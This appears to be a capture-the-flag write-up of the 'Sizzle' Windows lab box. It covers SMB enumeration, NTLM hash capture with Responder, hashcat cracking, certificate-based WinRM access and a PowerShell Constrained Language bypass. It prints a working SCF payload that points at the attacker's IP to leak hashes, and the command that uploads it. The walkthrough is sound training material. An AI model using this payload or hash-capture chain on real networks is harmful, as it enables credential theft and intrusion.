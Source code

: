 

#### Background


**Sizzler** is a a really tough windows box. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the system we know it is running some version of windows server

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/sizzle5.PNG){: .align-left}

#### Notes:
- There are a lot of ports open and by looking at the open ports we know it is most likely a windows active directory setup.

#### HTTP - TCP 80
Gobuster did find an interesting directory **certenroll**  which is microsoft certificate authority enrolement service.
```python

/aspnet_client (Status: 301)
/certenroll (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
```
But visiting that directory show us 403 forbidden

![source-01](/img/sizzle1.PNG){: .align-left}



#### SMB - TCP 445
Using SMB client i was able to get bunch of shares.

```python

sizzle smbclient -N -L \\\\sizzle.htb.local

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Operations      Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Notes:
- From the shares i noticed the CertEnroll which is used by Microsoft Certificate Authority. From my years of experience with managing windows Active directory environments /certsrv 

Visting that directory pop us for a username and password

![source-01](/img/sizzle2.PNG){: .align-left}

So we need a username and password to access /certsrv, lets enumerate the SMB shares further.

There is nothing interesting in department shares and most of the folders are empty. 

![source-01](/img/sizzle4.PNG){: .align-left}

From all the folders we have Full access to  /Users folder.

![source-01](/img/sizzle7.PNG){: .align-left}

#### SMB Share – SCF File Attacks

When we have read/write access to a SMB file share, we can performa a SCF file attack to steal NetNTLMv2 hash.
> 

After uploading the malicious SCF file, we wait for responder 

![source-01](/img/sizzle8.PNG){: .align-left}

And we got user Amanda's NetNTLM Hash

#### Hash Cracking

Feed  the captured hash to hashcat to crack it.

![source-01](/img/sizzle9.PNG){: .align-left}

And we got the password.

#### Certenrol Access
Using the credential for amanda we can login to /cersrv which is Microsoft certificate certificate enrol service.

![source-01](/img/Screenshot_2020-06-21_16-25-23.png){: .align-left}

Great now we can request certificates, why we need a certificate anyway ?. From our initial nmap scans we know winrm port is open which is https, to use this service we need to have a valid certificate.

What is WinRM ?
> Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol in its simplest form that uses Simple Object Access Protocol to interface with remote computers and servers, as well as Operating Systems and applications.

#### Intial Acess - Compromising User

Now we can use the cersrv portal and request for Certificate Signing Request (CSR).

#### SCF - Attack
SCF payload:

```python

➜  sizzle cat steal.scf
[Shell]
command=2
IconFile=\\10.10.14.36\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
upload the SCF file to SMB share
```python

smb: \Users\public\> put steal.scf
putting file steal.scf as \Users\public\steal.scf (0.1 kb/s) (average 0.1 kb/s)
```

#### Certificate Signing Request (CSR)
We can use OpenSSL to generate CSR file 

![source-01](/img/Screenshot_2020-06-21_16-47-07.png){: .align-left}

On the certificate web enrollment page copy/paste the content of the CSR file.

![source-01](/img/Screenshot_2020-06-21_16-55-08.png){: .align-left}

After generating and signing the cerificate for amanda SSL authentication, we need to set some variables in WinRM script. 

![source-01](/img/Screenshot_2020.png){: .align-left}


#### Initial Access:
Now we can use WinRM script to Loging as amanda.

![source-01](/img/Screenshot_2020-58.png){: .align-left}

User.txt file is not in amanda folders, there was another user in the system. So we might have to exploit this user to get to administrator.

![source-01](/img/Screenshot_2020-06-22.png){: .align-left}


#### System Enumeration:
Try to upload and run bloodhound to the syste, but it was blocked by powershell constrained deligation, on top of that AppLocker is in place and its blocking everything i throw it.

![source-01](/img/Screenshot2020-06-2211.png){: .align-left}

> PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

#### PowerShell CL and AppLocker Bypass
Lets bypass powershell constrained language mode and AppLocker to run our tools.
It was simple enough to bypass the PowerShell CL using powershell downgrade attack, i used powershell version2 to bypass the CL mode.












